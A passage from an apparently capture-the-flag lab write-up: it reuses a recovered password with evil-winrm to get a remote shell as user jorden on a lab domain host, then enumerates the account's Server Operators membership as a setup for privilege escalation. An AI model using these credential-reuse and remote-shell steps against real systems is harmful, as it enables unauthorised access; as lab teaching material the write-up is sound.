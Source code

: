 The password is rainforest786.

### WinRM

The creds work to get a shell as jorden:

```

root@kali# evil-winrm -u "MEGACORP\jorden" -p rainforest786 -i 10.10.10.179

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jorden\Documents> whoami
megacorp\jorden    

```

## Shell as SYSTEM

### Enumeration

jorden is in the Server Operators group:

```
*Evil-WinRM* PS C:\programdata> net user jorden
User name                    jorden
Full Name                    Jorden Mclean
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/9/2020 5:48:17 PM
Password expires             Never
Password changeable          1/10/2020 5:48:17 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   4/1/2020 12:15:47 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use*Server Operators
Global Group memberships     *Domain Users         *Developers
The command completed successfully.

```
